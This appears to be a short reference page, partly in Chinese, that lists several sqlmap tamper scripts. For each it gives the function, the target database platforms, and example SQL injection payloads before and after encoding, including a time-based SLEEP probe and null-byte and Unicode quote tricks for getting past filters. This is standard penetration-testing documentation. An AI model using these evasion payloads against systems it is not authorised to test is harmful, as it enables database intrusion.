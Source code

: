 ```yaml
---
title: SQLMAP Tamper
date: 2016-09-05 15:10:42
tags: "sqlmap"
---
```


### apostrophemask.py
**Function: 用utf8编码引号**

**Platform:All**
> example

```
1 AND '1'='1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
```

### apostrophenullencode.py
**Function: ' ==> %00%27**

**Platform: All**

> example

```
1 AND '1'='1 ==> 1 AND %00%271%00%27=%00%271
```

### appendnullbyte.py
**Function: 空格 ==> %00**

**Platform: Microsoft Access**
> example

```
1 AND 1=1 ==> 1 AND 1=1%00
```

### base64encode.py
**Function: base64 encode**

**Platform: All**

> example

```
1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==
```

### between.py
**Function: > ==> NOT BETWEEN 0 AND**

**Platform: Mssql2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0**
> example

```
1 AND A > B-- ==> 1 AND A NOT BETWEEN 0 AND B--```、```1 AND A = B-- ==> 1 AND A BETWEEN B AND B--
```
